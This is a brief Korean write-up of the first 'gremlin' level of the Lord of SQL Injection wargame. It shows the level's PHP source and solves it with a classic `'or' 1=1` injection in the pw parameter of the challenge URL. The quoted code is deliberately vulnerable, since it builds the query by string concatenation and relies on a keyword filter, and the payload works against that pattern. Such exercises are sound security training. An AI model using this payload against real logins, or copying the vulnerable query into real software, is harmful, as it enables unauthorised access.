

# LOS - gremlin

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

아주 간단한 SQL injection 문제이다. 
쿼리로 값을 받으면 그 값을 출력해주는 php파일이므로 pw에 injection을 시도해본다. 

``` 
https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php/?id=admin&pw='or' 1=1
```



